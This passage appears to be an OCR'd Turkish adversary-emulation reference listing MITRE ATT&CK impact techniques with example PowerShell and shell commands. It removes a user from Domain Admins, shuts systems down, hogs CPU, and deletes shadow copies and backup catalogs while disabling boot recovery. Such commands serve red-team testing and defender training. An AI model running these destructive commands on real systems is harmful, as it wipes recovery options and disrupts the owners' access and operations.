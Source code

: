     ```powershell
    $PWord = ConvertTo-SecureString -String #{super_pass} -AsPlainText -Force
    $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{super_user}, $PWord
    if((Get-ADUser #{remove_user} -Properties memberof).memberof -like "CN=Domain Admins*"){
      Remove-ADGroupMember -Identity "Domain Admins" -Members #{remove_user} -Credential $Credential -Confirm:$False
    } else{
        write-host "Error - Make sure #{remove_user} is in the domain admins group" -foregroundcolor Red
    }
    ```
    
2. ****System Shutdown/Reboot (T1529)****
    
    Örnek komut:
    
    ```powershell
    shutdown /s /t #{timeout}
    shutdown -r #{timeout}
    shutdown /r /t #{timeout}
    shutdown -h #{timeout}
    reboot
    halt -p
    halt -r
    halt --reboot
    poweroff
    poweroff -r 3
    poweroff --reboot
    shutdown /l
    ```
    
3. ****Resource Hijacking (T1496)****
    
    Örnek komut:
    
    ```bash
    yes > /dev/null
    ```
    
4. ****Inhibit System Recovery (T1490)****
    
    Örnek komut:
    
    ```powershell
    vssadmin.exe delete shadows /all /quiet
    ```
    
    ```powershell
    wmic.exe shadowcopy delete
    ```
    
    ```powershell
    wbadmin delete catalog -quiet
    ```
    
    ```powershell
    bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
    bcdedit.exe /set {default} recoveryenabled no
    ```
    